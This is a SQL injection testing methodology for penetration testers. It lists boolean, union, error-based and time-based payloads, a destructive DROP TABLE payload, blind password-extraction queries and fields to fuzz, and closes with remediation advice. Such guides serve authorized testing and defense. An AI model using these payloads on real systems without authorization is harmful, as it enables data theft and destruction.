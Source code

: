 # SQL Injection (SQLi) Methodology

Goal: find injection points that allow data disclosure, modification, authentication bypass, or remote command execution via the database.

## Quick checks

* Look for input reflected in SQL-like errors, or behavior changes.
* Distinguish numeric vs string parameters (no quotes vs quotes).
* Identify DBMS (MySQL, PostgreSQL, MSSQL, Oracle) via error strings or functions.
* Look for responses that change with `' OR '1'='1` or time delays.

## Basic payloads

```
' OR '1'='1
' OR 1=1--
' OR 'a'='a' --
" OR "" = "
'; DROP TABLE users; --
```

Time-based payloads (MySQL/Postgres example):

```
' OR SLEEP(5) --
' OR pg_sleep(5) --
```

MSSQL: `'; WAITFOR DELAY '0:0:5'--`

Union-based exploration:

```
' UNION SELECT NULL,NULL--
' UNION SELECT user(),database(),version() --
```

Error-based payloads (cause DB errors to reveal info):

```
' and extractvalue(1,concat(0x7e,(SELECT database()))) --
```

## Parameters/Places to fuzz

```
id
user
username
email
search
q
product_id
order_id
category
page
filter
sort
sku
limit
offset
"data" (JSON)
```

## Testing steps

1. Identify injection points: test both GET and POST, JSON bodies, headers, cookies.
2. Test simple boolean payloads (`' OR '1'='1`) and look for behavior differences.
3. Use time-based payloads for blind SQLi when no error is returned.
4. Try union selects to enumerate columns and extract data, starting with `NULL` placeholders.
5. Fingerprint DBMS using version(), @@version, user().
6. Avoid destructive payloads unless out-of-scope and explicitly allowed.
7. Use parameterized tests in Burp Intruder for automation.

## Blind/Advanced techniques

* Boolean-based blind: `AND (SELECT SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a')` to infer characters.
* Time-based blind: use `SLEEP()` or `pg_sleep()`.
* Out-of-band exfil if allowed (load\_file, xp\_cmdshell) only with permission.

## Reporting checklist

* Vulnerable endpoint and parameter, example request/response.
* Type of SQLi (error, union, boolean blind, time blind).
* Extracted proof-of-concept data (non-sensitive, e.g., schema names) where allowed.
* Impact and remediation: use prepared statements, ORM parameterization, input validation, least privilege DB user.

---

